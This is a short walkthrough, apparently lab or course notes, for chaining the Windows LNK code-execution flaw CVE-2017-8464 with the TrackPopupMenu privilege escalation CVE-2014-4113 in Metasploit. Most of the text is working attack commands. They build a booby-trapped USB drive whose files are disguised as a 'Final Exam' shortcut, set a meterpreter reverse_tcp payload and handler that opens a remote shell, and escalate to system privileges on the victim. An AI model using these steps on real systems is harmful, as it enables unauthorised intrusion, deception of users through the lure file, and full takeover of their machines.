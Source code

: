 
CVE-2017-8464 & CVE-2014-4113  |  LNK Code Execution Vulnerability & Windows TrackPopupMenu

https://www.youtube.com/watch?v=72aRGg7G798

--------------

LNK Code Execution Vulnerability

https://www.cvedetails.com/cve/cve-2017-8464

https://www.rapid7.com/db/modules/exploit/windows/fileformat/cve_2017_8464_lnk_rce

Windows TrackPopupMenu Win32k NULL Pointer Dereference

https://www.cvedetails.com/cve/cve-2014-4113

https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu

--------------

1. Preparing your malicious USB flash drive

> use exploit/windows/fileformat/cve_2017_8464_lnk_rce

> set DLLNAME 7_411_Final_Exam.cpl
> set FILENAME 7_411_Final Exam.lnk

- Setup payload (x64) for Server 2008 R2
> set payload windows/x64/meterpreter/reverse_tcp
```
[*] /root/.msf4/local/7_411_Final_Exam.cpl created, copy it to the "root" folder of the target USB drive
[*] /root/.msf4/local/7_411_FinalExam_D.lnk created, copy to the target USB drive
```
2. Setting up handler

> use multi/handler

- Setup payload (x64) for Server 2008 R2
> set payload windows/x64/meterpreter/reverse_tcp

> run

3. Attach & Copy & Eject USB drive -> unmount your USB safely

4. Creating a low privileged user account on victim machine => login using newly created user account

5. Attach USB to victim machine => victim does not need to do anything...

6. Get your session 

> getuid => still running as a low privileged user => need to find a way to escalate our privilege

--------------

7. Windows privilege escalation

> use exploit/windows/local/ms14_058_track_popup_menu

- Choose the right session + right payload info
- Set target 1 (x64) => for this particular case only (Server 2008 R2 x64)

> exploit

- Shutdown & reboot victim machine
> shutdown /r /t 0

--------------
